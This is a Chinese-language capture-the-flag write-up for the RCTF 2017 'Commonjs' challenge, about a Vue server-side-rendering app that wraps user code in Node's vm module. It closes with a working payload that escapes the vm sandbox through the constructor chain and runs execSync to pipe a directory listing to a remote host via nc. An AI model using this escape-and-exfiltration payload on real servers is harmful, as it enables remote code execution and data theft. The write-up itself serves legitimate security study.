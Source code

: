 ```yaml
---
title: RCTF Commonjs Write Up
date: 2017-05-24T16:46:10+08:00
hideSummary: true
tags:
  - CTF
---
```


### Commonjs ( 2 solved )

题目的环境是 `Vue` + `SSR ( Server Side Render )` , 详细信息可以参照官方的示例 [Hacknews](https://github.com/vuejs/vue-hackernews-2.0)

辨别的方法也很简单，服务端渲染返回的 HTML 里会带有预填充信息，这里 Vue 的预填充标志是 `window.__INITIAL_STATE__`

触发漏洞的点

1. 将自己的 commonjs 代码保存，点击 Save 会跳转到 URL `/codes/:id`
2. 开启一个新的页面，利用模块导入和 `const m = require('id')` 将模块引入，再次保存
3. 利用服务端渲染得到结果，可以发现依赖的模块进行了一次包装

在客户端中，可以找到对代码进行包装的代码

```javascript
function warp (code) {
    try {
        const ret = eval(`(function (module, exports, require) { ${code} })`)
        if (typeof ret !== 'function') {
            throw new Error('type not valid')
        }
        return ret.toString()
    } catch (e) {
        return 'function (module, exports, require) {  }'
    }
}
```

同时因为服务端渲染的缘故，服务端也应该有一个**类似的包装函数，并且返回一致**。

这里同样可以利用官方示例进行分析（ `src/api/create-api-client.js` 、`src/api/create-api-server.js` ）

这里给出服务端包装函数代码，因为代码是在服务端跑，这里用的是官方提供的 [vm](https://nodejs.org/dist/latest-v7.x/docs/api/vm.html) 模块（利用构造 payload 从返回可以发现不是 `eval` 而是 `vm`）

```javascript
function warp (code) {
    try {
        const ret = vm.runInNewContext(`(function (module, exports, require) { ${code} })`, sandbox, { timeout: 500 })
        if (typeof ret !== 'function') {
            throw new Error('type not valid')
        }
        return ret.toString()
    } catch (e) {
        return 'function (module, exports, require) { }'
    }
}
```

由于 vm 模块是可以绕过的，可以直接构造代码进行 RCE，这里给出一种 payload

```javascript
// payload

"}, (() => { this.constructor.constructor('return process')().mainModule.require('child_process').execSync('ls . | nc host port') })(), {"
```
